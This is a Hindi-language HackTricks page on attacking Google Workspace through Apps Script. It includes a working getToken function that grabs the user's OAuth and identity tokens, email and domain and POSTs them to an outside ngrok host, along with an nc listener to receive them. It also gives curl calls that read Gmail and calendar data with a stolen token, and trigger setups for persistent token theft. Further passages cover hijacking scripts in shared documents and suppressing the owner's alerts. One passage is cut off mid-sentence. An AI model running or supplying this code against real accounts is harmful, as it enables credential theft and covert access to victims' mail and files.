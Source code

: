 # GWS - ऐप स्क्रिप्ट

<details>

<summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी का विज्ञापन HackTricks में देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **मुझे** **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## ऐप स्क्रिप्ट

ऐप स्क्रिप्ट **वह कोड है जो एक उपयोगकर्ता को ट्रिगर करेगा जब एप्प स्क्रिप्ट से जुड़े दस्तावेज़ तक पहुंचने वाला उपयोगकर्ता संपादक अनुमति के साथ दस्तावेज़ तक पहुंचता है** और **OAuth प्रॉम्प्ट स्वीकार करने के बाद**।\
इन्हें भी **मालिक के द्वारा निर्धारित निश्चित समय के बाद क्रियान्वित किया जा सकता है** (स्थिरता)।

### ऐप स्क्रिप्ट बनाएं

ऐप स्क्रिप्ट बनाने के कई तरीके हैं, हालांकि सबसे सामान्य तरीके हैं **किसी भी प्रकार के Google दस्तावेज़ से** और एक **स्वतंत्र परियोजना** के रूप में:

<details>

<summary>Google Docs, Sheets, या Slides से container-bound परियोजना बनाएं</summary>

1. एक Docs दस्तावेज़, एक Sheets पंजीकरण, या Slides प्रस्तुति खोलें।
2. **Extensions** > **Google Apps Script** पर क्लिक करें।
3. स्क्रिप्ट संपादक में, **Untitled project** पर क्लिक करें।
4. अपने परियोजना को एक नाम दें और **Rename** पर क्लिक करें।

</details>

<details>

<summary>स्वतंत्र परियोजना बनाएं</summary>

Apps Script से स्वतंत्र परियोजना बनाने के लिए:

1. [`script.google.com`](https://script.google.com/) पर जाएं।
2. **नया परियोजना** पर क्लिक करें।
3. स्क्रिप्ट संपादक में, **Untitled project** पर क्लिक करें।
4. अपने परियोजना को एक नाम दें और **Rename** पर क्लिक करें।

</details>

<details>

<summary>Google Drive से स्वतंत्र परियोजना बनाएं</summary>

1. [Google Drive](https://drive.google.com/) खोलें।
2. **नया** > **अधिक** > **Google Apps Script** पर क्लिक करें।

</details>

<details>

<summary>Google Forms से container-bound परियोजना बनाएं</summary>

1. Google Forms में एक फॉर्म खोलें।
2. अधिक more\_vert > **स्क्रिप्ट संपादक** पर क्लिक करें।
3. स्क्रिप्ट संपादक में, **Untitled project** पर क्लिक करें।
4. अपने परियोजना को एक नाम दें और **Rename** पर क्लिक करें।

</details>

<details>

<summary>clasp कमांड लाइन टूल का उपयोग करके स्वतंत्र परियोजना बनाएं</summary>

`clasp` एक कमांड लाइन टूल है जो आपको टर्मिनल से Apps Script परियोजनाएं बनाने, पुल/पुश करने, और डिप्लॉय करने की अनुमति देता है।

अधिक विवरण के लिए [Command Line Interface using `clasp` guide](https://developers.google.com/apps-script/guides/clasp) देखें।

</details>

## ऐप स्क्रिप्ट स्थिति <a href="#create-using-clasp" id="create-using-clasp"></a>

### ऐप स्क्रिप्ट के साथ Google Sheet बनाएं

एक ऐप स्क्रिप्ट बनाने की शुरुआत करें, इस स्थिति के लिए मेरी सिफारिश है कि आप एक Google Sheet बनाएं और **`Extensions > App Scripts`** पर जाएं, यह आपके लिए एक **नए ऐप स्क्रिप्ट खोलेगा जो शीट से जुड़ा होगा**।

### टोकन लीक

OAuth टोकन तक पहुंचने के लिए आपको **`सेवाएं +` पर क्लिक करके स्कोप जोड़ने होंगे**:

* **AdminDirectory**: निर्देशिका के उपयोगकर्ताओं और समूहों तक पहुंच (यदि उपयोगकर्ता के पास पर्याप्त अनुमति है)
* **Gmail**: Gmail डेटा तक पहुंचने के लिए
* **Drive**: Drive डेटा तक पहुंचने के लिए
* **Google Sheets API**: ताकि ट्रिगर के साथ काम करे

आवश्यक **स्कोप्स को बदलने** के लिए आप परियोजना सेटिंग्स में जा सकते हैं और सक्षम कर सकते हैं: **`संपादक में "appsscript.json" मैनिफेस्ट फ़ाइल दिखाएं`**।

{% code overflow="wrap" %}
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail();
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1);
var oauthToken = ScriptApp.getOAuthToken();
var identityToken = ScriptApp.getIdentityToken();

// Data json
data = {
"oauthToken": oauthToken,
"identityToken": identityToken,
"email": userEmail,
"domain": domain
}

// Send data
makePostRequest(data);

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = "";
page = AdminDirectory.Users.list({
domain: domain,  // Use the extracted domain
orderBy: 'givenName',
maxResults: 100,
pageToken: pageToken
});

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10);

// To ask for drive permissions
var files = DriveApp.getFiles();
}


function makePostRequest(data) {
var url = 'http://5.tcp.eu.ngrok.io:12027';

var options = {
'method' : 'post',
'contentType': 'application/json',
'payload' : JSON.stringify(data)
};

try {
UrlFetchApp.fetch(url, options);
} catch (e) {
Logger.log("Error making POST request: " + e.toString());
}
}
```
{% endcode %}

अनुरोध को कैप्चर करने के लिए आप बस यह रन कर सकते ह।
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
Permissions requested to execute the App Script:

<figure><img src="../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
एक बाह्य अनुरोध के साथ OAuth प्रॉम्प्ट भी **बाह्य अंतबिंदु तक पहुंचने की अनुमति** के लिए पूछेगा।
{% endhint %}

### ट्रिगर बनाएं

एप्लिकेशन को पढ़ने के बाद, **⏰ ट्रिगर्स** पर क्लिक करें ट्रिगर बनाने के लिए। **`getToken`** को **फ़ंक्शन** के रूप में चुनें, डिप्लॉयमेंट में **`Head`** को चुनें, इवेंट स्रोत में **`From spreadsheet`** को चुनें और इवेंट प्रकार में **`On open`** या **`On edit`** (आपकी आवश्यकतानुसार) चुनें और सेव करें।

ध्यान दें कि यदि आप कुछ डीबग करना चाहते हैं तो आप **एप्लिकेशन स्क्रिप्ट के रन्स को निष्पादन टैब में** जांच सकते हैं।

### साझा करना

**एप्लिकेशन स्क्रिप्ट** को **ट्रिगर** करने के लिए पीड़ित को **संपादक एक्सेस** के साथ कनेक्ट करने की आवश्यकता है।

{% hint style="success" %}
**एप्लिकेशन स्क्रिप्ट** को निष्पादित करने के लिए उपयोग किया गया **टोकन** **ट्रिगर के निर्माता** का होगा, भले ही फ़ाइल को अन्य उपयोगकर्ताओं द्वारा संपादक के रूप में खोला गया हो।
{% endhint %}

### Shared With Me दस्तावेज़ का दुरुपयोग

{% hint style="danger" %}
यदि कोई आपके साथ एक दस्तावेज़ साझा करता है जिसमें एप्लिकेशन स्क्रिप्ट और एप्लिकेशन स्क्रिप्ट का ट्रिगर है जो एप्लिकेशन स्क्रिप्ट के **Head** का उपयोग करता है (निर्धारित डिप्लॉयमेंट नहीं), तो आप एप्लिकेशन स्क्रिप्ट को संशोधित कर सकते हैं (उदाहरण के लिए चोरी टोकन फ़ंक्शन जोड़ना), इसे एक्सेस कर सकते हैं, और **एप्लिकेशन स्क्रिप्ट को उस उपयोगकर्ता की अनुमतियों के साथ निष्पादित किया जाएगा जिसने आपके साथ दस्तावेज़ साझा किया था**! (ध्यान दें कि मालिक का OAuth टोकन जब ट्रिगर बनाया गया था तो उसके एक्सेस स्कोप्स होंगे जो दिए गए थे)।

**स्क्रिप्ट के निर्माता को एक सूचना भेजी जाएगी जिसमें इसका संकेत मिलेगा कि किसी ने स्क्रिप्ट को संशोधित किया है** (एलर्ट रोकने के लिए जीमेल अनुमतियों का उपयोग करने के बारे में क्या सोचते हैं?)
{% endhint %}

{% hint style="success" %}
यदि कोई **हमलावर एप्लिकेशन स्क्रिप्ट के स्कोप्स को संशोधित** करता है तो अपड
```bash
curl -X GET "https://www.googleapis.com/gmail/v1/users/<user@email>/messages" \
-H "Authorization: Bearer <token>"
```
{% endcode %}

उपयोगकर्ता का कैलेंडर सूची:
```bash
curl -H "Authorization: Bearer $OAUTH_TOKEN" \
-H "Accept: application/json" \
"https://www.googleapis.com/calendar/v3/users/me/calendarList"
```
## App Script के रूप में स्थिरता

स्थिरता के लिए एक विकल्प यह हो सकता है कि **एक दस्तावेज़ बनाएं और getToken के लिए एक ट्रिगर जोड़ें** और दस्तावेज़ को हमलावर के साथ साझा करें ताकि हर बार जब हमलावर फ़ाइल खोलता है तो वह **विक्टिम का टोकन निकालता है।**

एक App Script बनाना और इसे हर X समय (जैसे हर मिनट, घंटा, दिन...) के लिए ट्रिगर करना भी संभव है। जो एक हमलावर है जिसने **क्रेडेंशियल्स या एक विक्टिम के सत्र को कंप्रोमाइज़ किया है वह एक App Script समय ट्रिगर सेट कर सकता है और हर दिन एक बहुत विशेषाधिकारी OAuth टोकन लीक कर सकता है**:

एक App Script बनाएं, Triggers पर जाएं, Add Trigger पर क्लिक करें, और event source के रूप में Time-driven चुनें और उन विकल्पों को चुनें जो आपको अच्छे से अनुकूल हैं:

<figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
इससे एक सुरक्षा चेतावनी ईमेल और एक पुश संदेश आपके मोबाइल पर इसके बारे में सूचित करेगा।
{% endhint %}

### साझा दस्तावेज़ अनसत्य प्रॉम्प्ट बायपास

इसके अतिरिक्त, यदि कोई आपके साथ एक दस्तावेज़ साझा करता है जिसमें **संपादक एक्सेस** है, तो आप **दस्तावेज़ के अंदर App Scripts उत्पन्न** कर सकते हैं और **दस्तावेज़ का मालिक (निर्माता) App Script का मालिक होगा**।

{% hint style="warning" %}
इसका मतलब है, कि **दस्तावेज़ के निर्माता कोई भी App Script के निर्माता के रूप में प्रकट होगा** जो भी संपादक एक्सेस के साथ उसके अंदर बनाता है।

यह भी मतलब है कि **App Script को Workspace परिवेश द्वारा विश्वसनीय माना जाएगा** जिसका दस्तावेज़ का निर्माता है।
{% endhint %}

{% hint style="danger" %}
यह भी मतलब है कि यदि **पहले से ही एक App Script मौजूद है** और लोगों ने **एक्सेस दिया है**, तो जो भी डॉक पर **संपादक** अनुमति वाला है वह इसे **संशोधित कर सकता है और उस एक्सेस का दुरुपयोग कर सकता है।**\
इसका दुरुपयोग करने के लिए आपको लोगों को App Script को ट्रिगर करने की आवश्यकता है। और एक अच्छी ट्रिक यह है कि **स्क्रिप्ट को एक वेब ऐप के रूप में प्रकाशित करें**। जब **लोग** जो पहले से ही **एक्सेस दिया है** उन्हें वेब पेज तक पहुंचते हैं, तो वे **App Script को ट्रिगर करेंगे** (यह `<img>` टैग का उपयोग करके भी काम करता है)।
{% endhint %}
